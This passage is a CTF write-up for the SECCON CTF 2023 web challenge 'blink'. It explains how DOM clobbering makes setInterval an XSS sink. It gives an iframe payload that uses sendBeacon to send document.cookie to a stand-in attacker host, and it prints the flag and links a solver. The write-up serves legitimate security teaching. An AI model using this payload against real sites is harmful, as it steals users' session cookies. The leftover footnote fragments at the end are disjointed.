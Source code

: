 It means that `setInterval` can be XSS sinks if `target.togglePopover.toString` is controllable.

Interestingly, DOM clobbering enables it!

If you render the following HTML:
```html
<iframe
  name="body"
  srcdoc="<a id=togglePopover href=foobar:if(!window.sent)window.sent=navigator.sendBeacon('https://attacker.example.com',document.cookie)></a>"
></iframe>
```

then, the following JavaScript will be executed in `setInterval`:
```javascript
foobar:if(!window.sent)window.sent=navigator.sendBeacon('https://attacker.example.com',document.cookie)
```

### Solver

Here is my solver:

- https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202309_SECCON_CTF_2023_Quals/web/blink/solver/index.js

### Flag

```
SECCON{blink_t4g_is_no_l0nger_supported_but_String_ha5_blink_meth0d_y3t}
```

BTW, the title `bl👁nk` in the website is a pun on the words "eye" (`/aɪ/`) and "i" (`/aɪ/`). Did anyone notice this?

### Background

If you are unfamiliar with DOM clobbering attacks, you might want to refer to HackTricks:

- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering

Also, I created another DOM clobbering challenge last year. Check it!

- [light-note](https://blog.arkark.dev/2023/02/17/seccon-finals/#web-300-light-note) in SECCON CTF 2022 Finals

## [web] eeeeejs

- 12 solved / 257 pts
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202309_SECCON_CTF_2023_Quals/web/eeeeejs

Description:

> Can you bypass all mitigations?
>
> - Challenge: `http://eeeeejs.seccon.games:3000`
> - Admin bot: `http://eeeeejs.seccon.games:1337`
>
> `eeeeejs.tar.gz`


[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version.<br>ref. https://www.typescriptlang.org/tsconfig/#target